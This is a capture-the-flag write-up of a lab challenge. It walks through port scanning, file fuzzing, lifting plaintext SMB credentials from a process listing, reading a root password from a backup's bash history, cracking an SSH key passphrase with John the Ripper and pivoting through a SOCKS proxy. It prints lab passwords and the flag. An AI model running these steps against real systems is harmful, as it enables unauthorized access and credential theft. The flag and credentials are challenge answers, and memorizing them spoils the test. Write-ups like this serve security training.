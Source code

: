 # Admin John

## Challenge

Hi, TCC-CSIRT analyst,

Please check if any inappropriate services are running on the workstation `john.admins.cypherfix.tcc`. We know that this workstation belongs to an administrator who likes to experiment on his own machine.

See you in the next incident!

## Solution

### 1. Enumeration

We began by scanning for open ports on the workstation using `nmap`:

```bash
nmap -p1-65535 john.admins.cypherfix.tcc
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
23000/tcp open  inovaport1
```

The website at http://john.admins.cypherfix.tcc/ responded with:

```html
<h2>Hello world in PHP.</h2>
```

### 1. Files Fuzzing

Since there was a PHP hint, we ran `feroxbuster` to discover hidden files and directories:

```bash
feroxbuster -u http://john.admins.cypherfix.tcc/ -w /usr/share/seclists/Discovery/Web-Content/Common-PHP-Filenames.txt
```

This found an interesting file: http://john.admins.cypherfix.tcc/environment.php

### 2. Inspecting environment.php

We fetched environment.php:

```bash
curl http://john.admins.cypherfix.tcc/environment.php

<h2>Environment Variables</h2>Linux 3c829efad07d 6.1.0-22-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.94-1 (2024-06-21) x86_64 GNU/Linux<br />
<h2>Disk usage</h2>Filesystem      Size  Used Avail Use% Mounted on<br />
overlay          98G   34G   61G  36% /<br />
tmpfs            64M     0   64M   0% /dev<br />
shm              64M     0   64M   0% /dev/shm<br />
/dev/sda2        98G   34G   61G  36% /etc/hosts<br />
tmpfs           3.9G     0  3.9G   0% /proc/acpi<br />
tmpfs           3.9G     0  3.9G   0% /sys/firmware<br />
<h2>Running Processes</h2>USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND<br />
root           1  0.0  0.0   3924  2724 ?        Ss   Oct14   0:00 /bin/bash /entrypoint.sh<br />
root          62  0.0  0.2  37096 21580 ?        S    Oct14   3:07 /usr/bin/python3 /usr/bin/supervisord<br />
root          63  0.0  0.0   2576   792 ?        S    Oct14   0:00  \_ /bin/sh /usr/sbin/apachectl -D FOREGROUND<br />
root          69  0.0  0.1 201060 11880 ?        S    Oct14   0:21  |   \_ /usr/sbin/apache2 -D FOREGROUND<br />
www-data  323132  0.0  0.1 201656 11844 ?        S    15:12   0:00  |       \_ /usr/sbin/apache2 -D FOREGROUND<br />
www-data  323143  0.0  0.1 201656 11776 ?        S    15:12   0:00  |       \_ /usr/sbin/apache2 -D FOREGROUND<br />
www-data  323166  0.0  0.1 201656 11724 ?        S    15:12   0:00  |       \_ /usr/sbin/apache2 -D FOREGROUND<br />
www-data  323169  0.0  0.1 201656 11844 ?        S    15:12   0:00  |       \_ /usr/sbin/apache2 -D FOREGROUND<br />
www-data  323175  0.0  0.1 201656 14496 ?        S    15:12   0:00  |       \_ /usr/sbin/apache2 -D FOREGROUND<br />
www-data  323176  0.0  0.1 201656 14368 ?        S    15:12   0:00  |       \_ /usr/sbin/apache2 -D FOREGROUND<br />
www-data  323190  0.0  0.1 201656 14364 ?        S    15:12   0:00  |       \_ /usr/sbin/apache2 -D FOREGROUND<br />
www-data  323191  0.0  0.1 201656 14496 ?        S    15:12   0:00  |       \_ /usr/sbin/apache2 -D FOREGROUND<br />
www-data  323207  0.0  0.1 201656 14508 ?        S    15:12   0:00  |       \_ /usr/sbin/apache2 -D FOREGROUND<br />
www-data  323214  0.0  0.1 201656 14900 ?        S    15:12   0:00  |       \_ /usr/sbin/apache2 -D FOREGROUND<br />
root          64  0.0  0.0   3976  2148 ?        S    Oct14   0:02  \_ cron -f<br />
root      323375  0.0  0.0   5868  2608 ?        S    15:15   0:00  |   \_ CRON -f<br />
root      323376  0.0  0.0   2576   912 ?        Ss   15:15   0:00  |       \_ /bin/sh -c /bin/ps faxu > /backup/ps.txt                                                           <br />
root      323377  0.0  0.0   8100  4016 ?        R    15:15   0:00  |           \_ /bin/ps faxu<br />
root          65  0.0  0.0  15432  4752 ?        S    Oct14   0:19  \_ sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups<br />
john@tc+      66  0.0  0.0   2464   824 ?        S    Oct14   0:00  \_ sshpass -p xxxxxxxxxxxxxxxxxxxx ssh -o StrictHostKeyChecking=no -N -D 0.0.0.0:23000 backuper@10.99.24.100<br />
john@tc+      67  0.1  0.3  34220 25928 pts/0    Ss+  Oct14   6:57      \_ ssh -o StrictHostKeyChecking=no -N -D 0.0.0.0:23000 backuper@10.99.24.100<br />
```

It revealed disk usage and running processes. Among these, we discovered an sshpass process that runs an SSH connection with a hidden password and establishes a SOCKS proxy on port 23000.

### 3. Cron Job and SMB Password

We monitored the cron jobs, and at the right moment, we captured a cron job running with the plaintext password for an smbclient connection:

```
root      323737  0.0  0.0   5868  2600 ?        S    15:20   0:00  |   \_ CRON -f<br />
root      323740  0.0  0.0   2576   912 ?        Ss   15:20   0:00  |       \_ /bin/sh -c read -t 2.0; /bin/bash /opt/client/backup.sh<br />
root      323742  0.0  0.0   3924  2884 ?        S    15:20   0:00  |           \_ /bin/bash /opt/client/backup.sh<br />
root      323747  0.0  0.0  27116  3492 ?        R    15:20   0:00  |               \_ smbclient -U backuper%Bprn5ibLF4KNS4GR5dt4 //10.99.24.100/backup -c put /backup/backup-1729264801.tgz backup-home.tgz<br />
```

### 4. Accessing SMB Share

We used the discovered credentials to connect to the SMB server:

```bash
smbclient -U backuper%Bprn5ibLF4KNS4GR5dt4 //10.99.24.100/backup
ls
  .                                   D        0  Thu Oct 17 15:49:12 2024
  ..                                  D        0  Mon Oct 14 19:10:34 2024
  backup-home.tgz                     A  5830741  Fri Oct 18 17:20:02 2024

                102175644 blocks of size 1024. 63244288 blocks available
                
smb: \> get backup-home.tgz
```

So we have downloaded the `backup-home.tgz`.

### 5. Exploring the Backup

Inside the backup, we found:

- An encrypted SSH private key.
- An authorized_keys file that restricts SSH access to connections from 10.99.24.100 and runs the command `cat /home/john@tcc.local/flag.txt`.
- We also found interesting entries in the `.bash_history` file. These entries revealed prior SSH commands used by the administrator, including the root password and SSH commands to another server (`esx1.tcc.local`):

```bash
ssh -i ~/.ssh/id_rsa root@esx1.tcc.local
Enterprise1512
ssh-keygen -p -f ~/.ssh/id_rsa
```

This provided the necessary clue: the passphrase for the SSH private key was derived from the password `Enterprise1512`.

### 6. Cracking the SSH Key

Using `ssh2john`, `john` and known password `Enterprise`, we cracked the passphrase for the SSH private key:

```bash
ssh2john id_rsa > id_rsa.hash
echo "Enterprise" > w.txt 
john -w w.txt id_rsa.hash --rules=all
```

The passphrase turned out to be `Enterprise2215`. We then decrypted the SSH key:

```bash
chmod 0600 id_rsa
ssh-keygen -p -f id_rsa -m PEM
```

### 7. Accessing the Flag

Finally, we connected through the SOCKS proxy set up on port 23000:

```bash
ssh -o "ProxyCommand=ncat --proxy 10.99.24.101:23000 --proxy-type socks5 %h %p" -i id_rsa john@tcc.local@10.99.24.101
FLAG{sIej-5d9a-aIbh-v4qH}
Connection to 10.99.24.101 closed.
```

## Flag

```
FLAG{sIej-5d9a-aIbh-v4qH}
```
